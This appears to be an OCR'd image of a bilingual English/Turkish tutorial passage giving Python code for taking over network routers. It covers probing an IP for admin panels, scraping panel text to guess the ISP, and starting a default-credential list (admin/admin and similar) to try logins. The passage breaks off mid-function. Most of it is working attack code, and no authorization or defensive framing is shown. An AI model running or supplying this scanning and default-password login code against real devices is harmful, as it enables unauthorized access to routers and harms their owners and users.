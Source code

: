 ### Step 4: Detect Admin Panels  
### Adım 4: Yönetim Panellerini Tespit Et  
- **Code / Kod**:  
  ```python  
  import requests  

  def detect_admin_panel(ip, ports):  
      urls = [f"http://{ip}/{path}" for path in ["", "admin", "login", "setup"]]  
      if 443 in ports:  
          urls += [url.replace("http://", "https://") for url in urls]  
      for url in urls:  
          try:  
              response = requests.get(url, timeout=5, allow_redirects=True)  
              if response.status_code == 200:  
                  return {"url": url, "content": response.text}  
          except requests.RequestException:  
              continue  
      return None  
  ```  
- **Usage / Kullanım**: Tests common admin URLs.  
  Ortak yönetim URL'lerini test eder.  
- **Example / Örnek**: Finds `http://192.168.1.1/admin` as a valid panel.  
  `http://192.168.1.1/admin` adresini geçerli bir panel olarak bulur.  

### Step 5: Identify Routers and ISPs  
### Adım 5: Yönlendiricileri ve ISS'leri Tanımla  
- **Code / Kod**:  
  ```python  
  from bs4 import BeautifulSoup  

  def identify_isp(content):  
      soup = BeautifulSoup(content, "html.parser")  
      text = soup.get_text().lower()  
      isp_clues = {  
          "verizon": ["verizon", "fios"],  
          "comcast": ["xfinity", "comcast"],  
          "at&t": ["att", "u-verse"]  
      }  
      for isp, keywords in isp_clues.items():  
          if any(keyword in text for keyword in keywords):  
              return isp  
      return "Unknown"  
  ```  
- **Usage / Kullanım**: Scrapes panel content for ISP clues.  
  Panel içeriğini ISS ipuçları için kazır.  
- **Example / Örnek**: Detects "Comcast" from "Welcome to Xfinity" text.  
  "Welcome to Xfinity" metninden "Comcast"ı tespit eder.  

### Step 6: Test Default Passwords  
### Adım 6: Varsayılan Şifreleri Test Et  
- **Code / Kod**:  
  ```python  
  import requests  
  import time  

  def test_default_passwords(url):  
      credentials = [  
          {"username": "admin", "password": "admin"},  
          {"username": "admin", "password": "password"},  
          {"username": "user", "password": "user"}  
      ]  
  ```